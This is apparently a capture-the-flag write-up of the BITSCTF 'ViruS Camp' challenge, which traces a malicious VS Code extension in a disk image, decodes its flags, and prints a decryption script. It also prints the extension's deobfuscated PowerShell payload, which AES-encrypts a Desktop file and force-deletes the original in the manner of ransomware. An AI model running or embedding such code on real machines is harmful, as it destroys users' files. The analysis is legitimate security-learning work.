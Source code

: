 # ViruS Camp

Points: 

> 

`Author: `

---

The light theme stuff in the description made me thing of the `.config` files so I mounted the image and looked for hidden directories. I saw `.vscode` and went in. I knew I found something because the name of the extension was `undefined_publisher.activate-0.0.1/`

exploring it a little more showed me a file with a base64 comment at the bottom which had the flag.

```sh
❯ echo "VGhlIDFzdCBmbGFnIGlzOiBCSVRTQ1RGe0gwd19jNG5fdlNfYzBkM19sM3RfeTB1X3B1Ymwxc2hfbTRsMWNpb3VzX2V4NzNuc2kwbnNfU09fZWFzaWx5Pz9fNWE3YjMzNmN9" | base64 -d
The 1st flag is: BITSCTF{H0w_c4n_vS_c0d3_l3t_y0u_publ1sh_m4l1cious_ex73nsi0ns_SO_easily??_5a7b336c}⏎
```

After this I went into a little bit of a rabbit hole of the structure of a VSCode extension. I should instead have just read that file in a little more detail though. So basically the extension offers just one command "Run Shell", that is running some malicious powershell code when called which encrypts a `flag.png` in your `~/Desktop` with AES. The malicious powershell was very weakly obfuscated by just `base64` -> `reverse the string` so that was easy. Finally we just had to decrypt the `flag.enc` to get the image which contained the flag.

```powershell
$password = "MyS3cr3tP4ssw0rd"
$salt = [Byte[]](0x01,0x02,0x03,0x04,0x05,0x06,0x07,0x08)
$iterations = 10000
$keySize = 32   
$ivSize = 16 

$deriveBytes = New-Object System.Security.Cryptography.Rfc2898DeriveBytes($password, $salt, $iterations)
$key = $deriveBytes.GetBytes($keySize)
$iv = $deriveBytes.GetBytes($ivSize)

$inputFile = "C:\\Users\\vboxuser\\Desktop\\flag.png"
$outputFile = "C:\\Users\\vboxuser\\Desktop\\flag.enc"

$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Key = $key
$aes.IV = $iv
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

$encryptor = $aes.CreateEncryptor()

$plainBytes = [System.IO.File]::ReadAllBytes($inputFile)

$outStream = New-Object System.IO.FileStream($outputFile, [System.IO.FileMode]::Create)
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($outStream, $encryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)

$cryptoStream.Write($plainBytes, 0, $plainBytes.Length)
$cryptoStream.FlushFinalBlock()

$cryptoStream.Close()
$outStream.Close()

Remove-Item $inputFile -Force
```

`solve.py`
```py
from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2

password = "MyS3cr3tP4ssw0rd"  
salt = bytes([0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08])  
iterations = 10000
key_size = 32  
iv_size = 16  

key_iv = PBKDF2(password, salt, dkLen=key_size + iv_size, count=iterations)
key = key_iv[:key_size]
iv = key_iv[key_size:]

input_file = "flag.enc"
output_file = "flag.png"

with open(input_file, "rb") as f:
    encrypted_data = f.read()

cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted_data = cipher.decrypt(encrypted_data)

pad_length = decrypted_data[-1]
decrypted_data = decrypted_data[:-pad_length]

with open(output_file, "wb") as f:
    f.write(decrypted_data)

print(f"Decryption complete! Saved as {output_file}")
```

---

BITSCTF{h0pe_y0u_enj0yed_th1s_145e3f1a}
